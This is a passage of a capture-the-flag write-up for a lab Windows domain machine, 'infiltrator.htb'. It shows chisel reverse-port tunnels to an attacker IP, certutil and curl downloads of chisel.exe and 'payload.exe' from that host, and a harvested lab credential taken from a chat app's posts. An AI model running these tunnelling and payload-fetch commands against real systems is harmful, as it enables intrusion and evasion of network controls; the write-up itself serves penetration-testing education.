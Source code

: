 Drop the chisel. Tunnel the ports. Talk to the DB like a boss.

```powershell
PS C:\> C:\Tools\chisel.exe server --reverse
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
```

Inside the `ot_wall_posts`, we uncover some juicy lore straight from the dev diaries:

```
Hey team, I\'m here! In this screenshot, I\'ll guide you through using the app UserExplorer.exe. It works seamlessly with dev credentials, but remember, it\'s versatile and functions with any credentials. Currently, we\'re exploring the default option. Stay tuned for more updates!\n\n\"UserExplorer.exe -u m.harris -p D3v3l0p3r_Pass@1337! -s M.harris

Hey team,\n\nWe\'ve identified a security concern: some users and our domain (dc01.infiltrator.htb) have pre-authentication disabled on kerberos. \nNo need to panic! Our vigilant team is already on it and will work diligently to fix this. In the meantime, stay vigilant and be cautious about any potential security risks
```

![](/assets/images/writeups/infiltrator/OM-OT-wall.png)


Thanks for the creds, mystery dev. Now, according to OutputMessenger’s official docs (yes, we actually read those), the app needs a buffet of ports open to do its thing. Let’s open the floodgates:

```powershell
PS C:\> Invoke-Command -ScriptBlock { C:\Windows\Temp\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14124:127.0.0.1:14124 } -Session $Session

2024/09/06 07:22:02 client: Connected (Latency 523.4µs)
```


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe